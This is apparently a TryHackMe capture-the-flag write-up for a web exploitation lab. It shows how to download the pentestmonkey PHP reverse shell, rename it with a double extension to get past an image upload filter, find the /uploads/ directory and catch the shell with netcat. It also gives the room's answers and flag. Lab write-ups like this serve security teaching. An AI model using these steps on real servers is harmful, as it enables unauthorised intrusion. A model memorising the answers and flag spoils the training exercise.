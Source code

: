 ```yaml
---
description: Web Exploitation - GET ; Upload ; Reverse Shell
---
```


# The Elf Strikes Back!

## Video

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

## Rooms

[Upload vulns](https://tryhackme.com/room/uploadvulns)

[Intro to Shells](https://tryhackme.com/room/introtoshells)

## Resources

[PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

## Challenge

Open the site

![](../.gitbook/assets/image%20%2811%29.png)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2825%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%2818%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2824%29.png)

![](../.gitbook/assets/image%20%2829%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%2821%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%2813%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%2819%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}

